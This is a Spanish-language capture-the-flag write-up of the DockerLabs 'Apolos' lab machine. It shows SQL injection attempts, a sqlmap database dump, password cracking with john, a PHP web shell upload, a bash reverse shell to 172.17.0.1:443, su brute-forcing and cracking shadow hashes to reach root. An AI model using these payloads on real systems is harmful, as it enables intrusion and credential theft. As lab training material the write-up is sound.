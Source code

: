 nmap: 80

![image](https://github.com/user-attachments/assets/2ff1e276-c37b-4d4a-8b9f-14d603d06229)


---
entramos a la pagina principal y la verdad no hay mucho, tampoco en el código fuente

![image](https://github.com/user-attachments/assets/d055eff7-403d-4808-8008-e98742cc9f3c)

hacemos un gobuster:
> gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 64 -x php,html,py,txt

nos da un login.php
![[dockerlabs/medio/apolos/login.png]]
![[login2.png]]

dentro en el buscador colocamos 

    'or 1=1-- -' 

Esto es una inyección SQL que explota vulnerabilidades en consultas a bases de datos como por ejemplo ese login 

Puntos importantes de esa explotación:
> Funciona cuando el sistema no valida correctamente las entradas de usuario
> la base de datos soporta comentarios (--) para ignorar el resto de la consulta

y no funciona cuando:
> hay validación o escape de caracteres en las entradas 
> y el motor de la base de datos no interpreta (--) como comentario.

como en ese login no permite esa inyección probamos creando un usuario y contraseña e ingresamos, lo que logramos es entrar a la pagina de esta forma:
![[panel1.png]]
voy a probar con burpsuite desde donde dice "comprar ahora", capturamos y hacemos una consulta sqlmap con el request que capturamos
![[burp.png]]
ahí se guardo la petición y así que hacemos un sqlmap

    sqlmap -r  request --batch --dump


y nos dio:
![[resultado.png]]
creamos un hash con nano, pegamos la contraseña que nos dio el sqlmap
crackeamos la contraseña con john:

    john --wordlist=/usr/share/wordlists/rockyou.txt hash
 
 me da la contraseña del admin
![[crack.png]]
cerramos sesión e ingresamos con la sesión de admin
al final podemos ver un panel de administración 
vamos a configuraciones > subir archivos.

creamos un phtml ya que con php no sirve y lo buscamos en: https://book.hacktricks.xyz/pentesting-web/file-upload
![[pruebas1.png]]

creamos un php dentro permite la ejecución remota de comandos sin validación

     - <?php
       system($_GET['cmd']);
       ?>

lo subimos:
![[subida1.png]]

después de subir el archivo vamos a uploads  y vemos que esta ahí, comprobamos
![[comprobacion.png]]
ahora colocamos una bash

    http://172.17.0.2/uploads/shell.phtml?cmd=bash -c 'bash -i >%26   /dev/tcp/172.17.0.1/443 0>%261'
    
mientras la terminal nuestra esta en escucha y tenemos conexión 
![[dockerlabs/medio/apolos/conexion1.png]]
entramos y ahora escalamos.

encontré que para escalar se utiliza "su-bruteforce" , buscamos alguna forma y encontré:
https://github.com/d4t4s3c/suForce
utilizamos este diccionario: https://raw.githubusercontent.com/d4t4s3c/suForce/refs/heads/main/techyou.txt
![[diccionario.png]]

nos pasamos el suforce y techyou.txt por wget abriendo un servidor en nuestro terminal con python3.
pasamos dos diccionarios por si acaso, ahora iniciamos la fuerza bruta
después de un rato nos da la contraseña de luis
![[contraseña1.png]]
nos pasamos al otro usuario

muestra que para escalar a root esta el grupo "shadow" que se vio con el id
![[shadows.png]]
buscando encontré una posible contraseña:
![[paso1.png]]
dejamos un txt así: cosa que podamos sacar  la contraseña 
![[paso2.png]]
de la mejor forma es hacer el ataque en nuestra  terminal con el comando:

        john --wordlist=/usr/share/wordlists/rockyou.txt shadows.txt

y nos da la contraseña: rainbow2

su root / rainbow2
![[dockerlabs/medio/apolos/root.png]]
y somos root!
